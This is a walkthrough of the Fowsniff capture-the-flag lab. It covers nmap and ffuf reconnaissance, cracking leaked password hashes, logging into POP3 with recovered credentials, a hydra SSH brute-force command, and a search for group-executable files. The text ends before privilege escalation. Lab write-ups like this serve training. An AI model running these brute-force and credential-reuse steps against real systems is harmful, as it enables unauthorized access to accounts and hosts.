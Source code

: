 # Fowsniff CTF

I cannot ping it but I found a website there so I started `nmap` scan without ping.
```
nmap -Pn fowsniff.thm
```

<img src="./imgs/fowsniff.thm.png" alt="fowsniff.thm"><br>

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://fowsniff.thm/FUZZ -c -t 200
```
<img src="./imgs/ffuf_fowsniff.png"><br>

<hr>

Nmap found a couple of open ports. Let's explore them.
```
nmap -sC -sV -Pn -p22,80,110,143 fowsniff.thm
```
<hr>

I google the fowsniff and found their twitter, where I found the password dump, I put the hashes into `hash cracker` and got this.<br>
<img src="./imgs/hash_cracker.png">
```
[+] 10.10.128.253:110     - 10.10.128.253:110 - Success: 'seina:scoobydoo2' '+OK Logged in.'
```

### pop3
```
telnet fowsniff.thm 110
USER seina
PASS scoobydoo2

retr 1
retr 2
```
<img src="./imgs/ssh_pass.png">

`S1ck3nBluff+secureshell`
<hr>

```
hydra -L users.txt -P passwords.txt ssh://fowsniff.thm -t 20
```

<img src="./imgs/hydra.png">

I connected via `ssh` and did:<br>
```
groups
# Found myself in the users group

# to find which files the group can execute
find / -type f -executable -group users 2>/dev/null
/opt/cube/cube.sh
```
